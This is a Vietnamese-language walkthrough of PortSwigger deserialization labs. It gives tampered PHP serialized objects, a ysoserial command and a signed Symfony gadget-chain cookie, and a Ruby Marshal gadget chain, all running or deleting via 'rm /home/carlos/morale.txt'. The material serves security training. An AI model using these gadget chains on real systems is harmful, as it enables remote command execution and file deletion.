

# Insecure deserialization

### 1. Modifying serialized objects
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects

Context: Trường admin được đặt trong cookie và dùng giá trị boolean để xác định.

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```


Sửa cookie thành `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}` rồi encode base64 và gửi đi ta có thể thấy xuất hiện admin panel

---

### 2. Modifying serialized data types
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types

Context: Xuất hiện `access-token` unique cho từng tài khoản, ta sẽ đổi giá trị này thành int và có giá trị là 0.


---

### 3. Using application functionality to exploit insecure deserialization
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization

Context: Bài này ở đoạn serialize có chứa 1 object lưu lại path đến avatar, ta sẽ thao túng path này để xóa nội dung. 

Khi truy cập `/delete` thì sẽ có đoạn:\
`s:11:"avatar_link";s:23:"path..."`\
Nhằm xóa luôn avatar khi xóa tài khoản. Vì vậy nếu đây là 1 file nhạy cảm khác nó sẽ xóa luôn trên server. 

Payload:\
`s:11:"avatar_link";s:23:"/home/carlos/morale.txt"`

---

### 4. Arbitrary object injection in PHP - Tiên đối tượng tùy ý
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

Context: tùy ý thay đổi đối tượng ở serialize

Ta tìm được 1 path `libs/CustomTemplate.php~`:\


Ở đây class `CustomTemplate` có `__destruct()` là magic method. Hàm này sẽ xem thử `lock_file_path` có tồn tại ko và xóa nó. 

Payload: `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`


---

### 5. Exploiting Java deserialization with Apache Commons
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons

Xác định nơi sử dụng serialize

Tạo payload:
`java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > text.txt`

---

### 6. Exploiting PHP deserialization with a pre-built gadget chain
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain


Đoạn token được base64 và được kí bằng HMAC

Decode đoạn token:\


Ta nghĩ đến serialize của PHP, ta thử gửi 1 đoạn cookie đã bị chỉnh sửa:\


Ta tìm file phpinfo.php bằng `find comment`:\


Truy cập phpinfo.php ta nhận được secret_key:\


Tạo payload:


Bây giờ cần tạo cookie đúng theo secret key:
```php
<?php
$object = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";
$secretKey = "n66p67t9sax1rek2y3ts7j8lenpfby20";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```


---
### 7. Exploiting Ruby deserialization using a documented gadget chain
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain

Khi thay đổi cookie nó sẽ thông báo lỗi:\


```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```


Bỏ nó vào cookie và request.

---

### 8. Developing a custom gadget chain for Java deserialization
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization


Cookie bắt đầu bằng `rO0` ta nhận diện đây là serialize của JAVA

\
\


Ở `backup/ProductTemplate.java` ta thấy:\


Dựa vào đó ta sẽ viết 1 đoạn ctr java để tạo instance của ProductTemplate với ID bất kì. 

```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("your-payload-here");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized object ID: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```
